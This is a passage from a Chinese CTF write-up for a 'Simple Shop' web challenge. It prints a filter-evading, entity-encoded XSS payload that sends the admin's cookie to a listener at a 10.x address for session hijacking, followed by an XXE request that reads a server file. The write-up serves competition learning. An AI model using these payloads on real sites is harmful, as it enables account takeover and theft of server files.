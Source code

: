 按照 **Simple Shop1** 的方法进入，购买列表里有个 **talk to manager** ，界面是这个样子。

{% asset_img image042.png 给管理员留言 %}

一时也没有什么切入点，就查看了一下源代码。

{% asset_img image044.png 页面代码 %}

里面 `get_md5.js` 代码是

{% asset_img image046.png getmd5.js %}

根据以往的经验判断，以为是要尽快算出md5的值，才有资格与管理员通信，于是写了个小程序想爆破一下。结果这个思路是错的，这里md5的作用仅仅是浪费时间，起到一个手动验证码的作用。

后来，有个HINT提示，后台管理员会不停查看这些浏览信息，原来是考查xss相关的知识呀。

测试了好多，发现会后台会过滤 `script` 、 `英文句号.` 、 `斜杠/` 等字符，考虑使用img的onerror构造一个。

主要功能是通过一个script标签访问一个内网地址，网址的参数带上cookie，通过get方式将cookie提交到远程服务器。

```
"<script src='http://10.109.33.193/index.php?s="+document.cookie+"'></script>"
```

将这段代码HTML encode躲避字符检查，与img的onerror结合起来，通过document.write写入dom中。

```html
<img src=x onerror='javascript:document["write"](&#x22;&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x20;&#x73;&#x72;&#x63;&#x3D;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x31;&#x30;&#x2E;&#x31;&#x30;&#x39;&#x2E;&#x33;&#x33;&#x2E;&#x31;&#x39;&#x33;&#x2F;&#x69;&#x6E;&#x64;&#x65;&#x78;&#x2E;&#x70;&#x68;&#x70;&#x3F;&#x73;&#x3D;&#x22;&#x2B;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x2B;&#x22;&#x27;&#x3E;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;&#x22;)'>
```

将上面的信息作为消息提交，不一会儿就看到返回的消息，里面带有PHPSession内容。`PHPSESSID=fhrlr9dltmis8f00fa1taqmfi`，用这段cookie替换本地的cookie，成功拿到管理员权限进入后台。

{% asset_img image048.png 后台页面 %}

这里还是没有flag，查看网页源代码发现一个注释，`/aaasssddd/flag` 里面可能存放着flag。

{% asset_img image052.png 后台页面网页 %}

不管怎样先写点儿心路历程吧，请求里发送了一些内容。

{% asset_img image050.png 一个心路历程 %}

之前发送的请求都是json格式，这个请求居然是xml格式的，稍微学习了一下，**XXE** 攻击中，可以构建实体来获取指定文件的内容，好在这里没有多少阻碍，构造一个请求

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///aaasssddd/flag" >]>
<note><title>title</title><content>&xxe;</content></note>
```

用postman发送到后台地址，成功拿到flag文件的内容

{% asset_img image054.jpg 发送请求 %}

Simple Shop虽然麻烦点，但是整个思路感觉还是很不错的。解出这两道题，很大程度上弥补了我们队在PWN上的不足。

# 【Coding】小明的二进制
